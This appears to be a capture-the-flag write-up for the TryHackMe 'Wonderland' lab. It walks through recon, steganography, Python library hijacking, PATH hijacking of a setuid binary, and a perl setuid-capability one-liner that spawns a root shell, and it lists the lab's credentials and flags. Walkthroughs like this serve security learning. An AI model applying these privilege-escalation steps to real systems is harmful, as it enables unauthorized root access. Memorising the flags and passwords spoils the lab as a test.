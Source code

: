 # Wonderland

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, steghide, binwalk

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.210.160

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sC: script scan<br>
-sV: probe open ports to determine service/version info<br>
-oN OUTPUT_FILE: output results to given filename<br>
```
nmap -sC -sV -oN nmap.txt 10.10.210.160
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    22 (ssh OpenSSH 7.6p1),<br>
    80 (http Golang),<br>

Enumerate hidden directories on website
```
dirb 10.10.210.160
```

![1.2](./imgs/1.2.png)

Found: /r/a, /poem

### 2. STEGANOGRAPHY

Download images in http://10.10.210.160/img/

```
binwalk ./img/*
```

![2.1](./imgs/2.1.png)

Looks like there is data hidden in alice_door.jpg

```
steghide extract -sf alice_door.jpg
```

passphrase required

try other image
```
steghide extract -sf white_rabbit_1.jpg
```

Found hint.txt

![2.2](./imgs/2.2.png)

follow the R A B B I T

http://10.10.210.160/r/a/b/b/i/t/ leads to alice_door.png

![2.3](./imgs/2.3.png)

Inspect element on http://10.10.210.160/r/a/b/b/i/t/

![2.4](./imgs/2.4.png)

found potential ssh login

**USERNAME**: alice<br>
**PASSWORD**: HowDothTheLittleCrocodileImproveHisShiningTail

### 3. SSH

log into ssh
```
ssh alice@10.10.210.160
```

HINT: everything is upside down

root.txt was in alice's home directory so user.txt should be in root

```
cat /root/user.txt
```

![3.1](./imgs/3.1.png)

**USER FLAG**: thm{"Curiouser and curiouser!"}

### 4. PIVOT TO RABBIT USER

Check user privileges
```
sudo -l
```

![4.1](./imgs/4.1.png)

alice can run /usr/bin/python3.6 and /home/alice/walrus_and_the_carpenter.py as rabbit

Inspect python program

imports library called random

![4.2](./imgs/4.2.png)

Calls the choice() method at the end

![4.3](./imgs/4.3.png)

Create new random.py file and test it out

![4.4](./imgs/4.4.png)

We can put in our own code in random.py and run the original python program as user rabbit

Modified random.py to spawn shell so when python program is run as rabbit it will create a shell for user rabbit

![4.5](./imgs/4.5.png)

Run program as rabbit
```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

![4.6](./imgs/4.6.png)

```
cd /home/rabbit
file teaParty
```

![4.7](./imgs/4.7.png)

ELF file

```
./teaParty
```

![4.8](./imgs/4.8.png)

```
cat teaParty
```

![4.9](./imgs/4.9.png)

Program is executing 
```
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```

```
ls -la teaParty
```

![4.10](./imgs/4.10.png)

Sticky bit is set so We can target the date command so it will be executed as root

### 5. PRIVILEGE ESCALATION

Create custom date script
```
mkdir bin
vim date
```

![5.1](./imgs/5.1.png)

Add to PATH and run teaParty
```
export PATH="/home/rabbit/bin:$PATH"
./teaParty
```

![5.2](./imgs/5.2.png)

Created hatter user shell

found password for hatter user<br>
**PASSWORD**: WhyIsARavenLikeAWritingDesk?

Run linpeas
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas
scp linpeas hatter@10.10.210.160:/home/hatter/linpeas
ssh hatter@10.10.210.160
chmod +x linpeas
./linpeas
```

![5.3](./imgs/5.3.png)

From https://materials.rangeforce.com/tutorial/2020/02/19/Linux-PrivEsc-Capabilities/<br>
We can exploit perl capabilities<br>
Capabilities are granular escalated user privileges for certain programs<br>
Perl has the capability to use the setuid function in order to become root

Can also use this command to check capabilities<br>
2 is standard error<br>
2>/dev/null redirects stderr to /dev/null
```
getcap -r / 2>/dev/null
```

![5.4](./imgs/5.4.png)

We can use this command to exploit perl capabilities<br>
-e execute command<br>
use POSIX (setuid) imports setuid<br>
POSIX::setuid(0) sets the uid to 0 (root)
```
perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

![5.4](./imgs/5.4.png)

**ROOT FLAG**: thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}